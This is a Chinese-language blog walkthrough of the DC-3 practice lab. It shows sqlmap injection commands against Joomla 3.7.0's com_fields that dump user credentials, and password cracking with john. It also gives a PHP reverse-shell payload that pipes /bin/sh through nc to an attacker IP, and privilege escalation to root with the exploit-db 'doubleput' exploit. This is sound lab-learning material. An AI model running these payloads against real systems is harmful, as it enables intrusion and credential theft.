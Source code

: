 ```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2025-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`
![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描
![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 http://192.168.163.131/ 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 http://192.168.163.131/administrator/index.php

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`
### 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)
#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：
```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

| ![image.png](https://img.ghostliner.top/mD6eR2.png) | ![image.png](https://img.ghostliner.top/ajK0Ne.png) |
| --------------------------------------------------- | --------------------------------------------------- |

![image.png](https://img.ghostliner.top/SDg7ss.png)


Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users` 

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```
#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```

```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`
![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```
#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)
